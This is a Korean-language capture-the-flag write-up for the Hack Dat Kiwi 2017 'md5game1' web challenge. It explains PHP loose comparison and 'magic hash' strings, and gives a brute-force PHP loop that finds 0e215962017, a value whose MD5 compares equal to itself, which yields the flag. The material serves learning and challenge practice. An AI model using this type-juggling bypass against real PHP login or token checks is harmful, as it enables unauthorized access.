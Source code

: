 # [WEB] Hack Dat Kiwi CTF 2017 - md5game1

# Description

>  10 years has passed since MD5 was broken, yet it is still frequently used in web applications, particularly PHP powered applications (maybe because there's a function after it?). Break it again to prove the point!

# Analysis

해당 문제는 `md5($_GET['md5']) == $_GET['md5']`가 성립하는 스트링값을 찾는 문제이다.

이 문제를 풀기전 알아야할 것은 php의 loose comparison이다.

php는 loose comparison과 strict comparison이 존재하며 아래의 링크를 통해 확인할 수 있다.

>  PHP Comparison : http://php.net/manual/en/types.comparisons.php

해당 문제는 loose comparison을 사용하며, 입력 값과 입력 값의 md5값이 완전히 같지 않아도 통과할 수 있다.

>  PHP Magic Hash : https://www.whitehatsec.com/blog/magic-hashes/

즉 0e[0-9]+ 또는 00e[0-9]+와 같은 형태의 스트링으로 md5 해쉬화를 한 값이 0e[0-9]+ 또는 00e[0-9]+와 같은 형태를 하면 된다.

```php
var_dump('0e0'=='0e2'); # true
var_dump('0e0'=='0ea'); # false
var_dump('00e0'=='0e2'); # true
var_dump('00e0'=='00e2'); # true
```

# Exploit

1. PHP Trick using magic hash

## 1. PHP Trick using magic hash

매직 해쉬를 만들기 위해 아래의 간단한 php 스크립트를 돌렸다. 

```php
for($i=0;$i<1000000000;$i++){
  $p= '0e'.intval($i);
  if(md5($p)==$p){
    echo $i;
    break;
  }
}
```

0e215962017의 값이 나왔으며 md5 해쉬 한 값을 0e291242476940776845150308577824이다.

즉 `var_dump('0e215962017' == md5('0e215962017')) = true`가 되어 플래그를 얻을 수 있다.

```html
Wonderbubulous! Flag is zr8cvFTfhd3vcxzH
```



**zr8cvFTfhd3vcxzHzr8cvFTfhd3vcxzH**

